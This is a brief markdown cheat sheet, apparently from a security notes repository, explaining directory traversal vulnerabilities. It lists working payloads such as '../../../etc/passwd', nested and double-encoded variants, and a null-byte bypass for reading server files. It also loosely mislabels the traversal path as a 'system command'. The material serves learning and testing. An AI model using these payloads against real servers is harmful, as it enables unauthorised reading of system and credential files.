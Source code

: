 # Directory Traversal

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.

## IDENTIFYING THE VULNERABILITY
```
1 Check wether the Parameter that u identified  is fetching the results from a systems disk location or not.
2 Generally try to enumerate endpoints having query strings(?). 
3 Check wether the system commands are being executed on the Endpoint or not. 

```
## Examples
```
> https://insecure-website.com/loadImage?filename=../../../etc/passwd.
Above **?filename** is the parameter that has the vuln and **../../../etc/passwd** is the system command that we used to check wether the application is executing the arbitary code that the user has supplied.
This causes the application to read from the following file path:
/var/www/images/../../../etc/passwd.

```
## Common obstacles to exploiting file path traversal vulnerabilities
- If the usual ../../../ doesnt work then u may use nested traversal techniques like ....//....//....//etc/passwd
- If the backend is using some kind of Filtering then u can use various non-standard encodings like ..%c0%af or ..%252f 
   - ..%252f..%252f..%252fetc/passwd 
- If an application requires that the user-supplied filename must start with the expected base folder, such as /var/www/images, then it might be possible to include the required base folder followed by suitable traversal sequences. 
  - For Example: filename=/var/www/images/../../../etc/passwd 
- If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension. 
  - For example: filename=../../../etc/passwd%00.png
```

Learn More https://portswigger.net/web-security/file-path-traversal
